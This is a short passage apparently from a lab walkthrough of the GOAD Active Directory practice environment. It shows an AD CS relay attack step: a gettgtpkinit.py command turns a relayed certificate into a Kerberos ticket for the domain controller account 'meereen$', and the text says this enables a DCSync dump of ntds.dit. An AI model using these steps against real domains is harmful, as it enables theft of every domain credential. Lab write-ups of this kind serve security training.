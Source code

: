 ![adcs_ntlmrelay.png](/assets/blog/GOAD/adcs_ntlmrelay.png)

- Ask for a TGT with the certificate we just get (we copied it to the file cert.b64)

```shell
gettgtpkinit.py -pfx-base64 $(cat cert.b64) 'essos.local'/'meereen$' 'meereen.ccache'
```

![ask_tgt_ecs8.png](/assets/blog/GOAD/ask_tgt_ecs8.png)

- And now we got a TGT for meereen so we can launch a DCsync and get all the ntds.dit content.
